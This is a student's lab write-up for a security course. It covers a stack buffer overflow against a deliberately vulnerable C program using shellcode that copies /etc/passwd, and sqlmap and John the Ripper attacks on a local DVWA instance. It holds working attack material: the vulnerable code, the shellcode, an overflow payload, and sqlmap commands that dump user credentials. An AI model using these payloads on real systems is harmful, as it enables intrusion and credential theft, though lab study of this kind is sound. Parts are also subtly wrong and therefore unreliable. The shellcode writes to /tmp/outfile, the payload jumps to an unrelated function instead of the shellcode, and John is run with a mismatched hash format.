 # Lab #1,22119054, Luu Trong Dung, INSE331280E_01FIE
# Task 1: Software buffer overflow attack
**Question 1**: 
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  

**Answer 1**:
## 1. Create a text file named `bof.c`:
```sh
#include <stdio.h>
#include <string.h>
void redundant_code(char *p)
{
    char local[256];
    strncpy(local, p, 20);
    printf("redundant code\n");
}
int main(int argc, char *argv[])
{
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

## 2. Create a text file named `shellcode.asm`:
```sh
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

## 3.Compile asm program and C program to executable code. 
Step 1: First compile the code
before compile must run docker
```sh
docker run -it --privileged -v 'E:\Learn\Secure\KT:/home/seed/seclabs' securelabs
```
compile C program
```sh
gcc -g bof.c -o bof.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
Compile asm program 
```sh
nasm -f elf32 shellcode.asm -o shellcode.o
```
linking asm
```sh
ld -o shellcode shellcode.o
```
## 4.Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 

Step2: insert the compiled file bof.out into gdb to see the address of the redundant_code() function and record the address
```sh
gdb -q bof.out
```
save address of redundant_code: 0x0804846b
```sh
disas redundant_code
```
![](./images/Screenshot%202024-10-21%20083428.png)


Step 3: Exit the GDB and start the attack by inserting the address of the function that was saved in the upper step of Return.
```sh
./bof.out $(python -c "print('a'*20 + '\x6b\x84\x04\x08')")
```

output screenshot (optional)
![](./images/Screenshot%202024-10-21%20084105.png)


# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 
  
## Setup
Step1: Install dvwa and sqlmap

Install dvwa
```sh
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
Install sqlmap
```sh
sudo apt update
sudo apt install sqlmap
```

Step2: next to the browser, type in the URL bar "localhost:80" and log in with (Admin, password)

![](./images/Screenshot%202024-10-21%20094110.png)

Step3: then select sql injection and fill in 1 user ID of any submit, then copy URl 

![](./images/Screenshot%202024-10-21%20094223.png)

Step4: next press f12 to find and save Cockie

![](./images/Screenshot%202024-10-21%20094329.png)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: This command includes the URL and cookie saved in the Setup steps
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs
```

![](./images/Screenshot%202024-10-21%20094903.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: The figure below contains 2 tables in the DVWA database, User and Guestbook
use sqlmap to get tables 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" --dbs --tables
```
![](./images/Screenshot%202024-10-21%20095522.png)

use sqlmap to get infomation of users table in database dvwa
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --columns
```
![](./images/Screenshot%202024-10-21%20100555.png)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=j1jkcruu09uddv6q2jbbc7a125; security=low" -D dvwa -T users --dump   
```
With the above command we get the data in the users table

![](./images/Screenshot%202024-10-21%20102134.png)

Retrieve the hashed password of any user
```sh
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
```

Install John
```sh
sudo apt update
sudo apt install john -y
```

Use John decrypt hashes password save in hashes.txt, with format=md5
```sh
john --format=md5crypt hashes.txt
```
Show pass
```sh
john --show hashes.txt
```


